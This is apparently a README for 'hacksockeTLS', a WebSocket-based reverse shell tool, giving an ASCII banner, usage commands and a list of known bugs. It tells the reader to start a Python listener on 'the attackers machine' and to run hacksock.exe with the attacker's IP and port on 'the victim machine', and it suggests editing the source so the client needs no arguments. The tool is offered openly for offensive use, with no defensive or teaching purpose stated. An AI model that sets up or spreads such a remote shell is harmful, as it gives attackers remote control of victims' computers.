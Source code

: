 ```
  _                _                   _        _ _______ _       _____ 
 | |              | |                 | |      | |__   __| |     / ____|
 | |__   __ _  ___| | _____  ___   ___| | _____| |_ | |  | |    | (___  
 | '_ \ / _` |/ __| |/ / __|/ _ \ / __| |/ / _ \ __|| |  | |     \___ \ 
 | | | | (_| | (__|   <\__ \ (_) | (__|   <  __/ |_ | |  | |____ ____) |
 |_| |_|\__,_|\___|_|\_\___/\___/ \___|_|\_\___|\__||_|  |______|_____/ 
```

A websocket based reverse shell tool.

# To use:

On the attackers machine use the python server

`python3 hacksock-srv.py --host [Listening IP] --port [Listening Port] [--ssl]`

On the victim machine, either alter the source so no arguments are required or run the below:

`hacksock.exe [attackers IP] [port]`

# Bugs:

- Code was written in a field therefore full of bugs
- The server accepts multiple connections however there is no way to switch at present. Functionality coming soon.
- Feel free to use and improve. #fixmycode
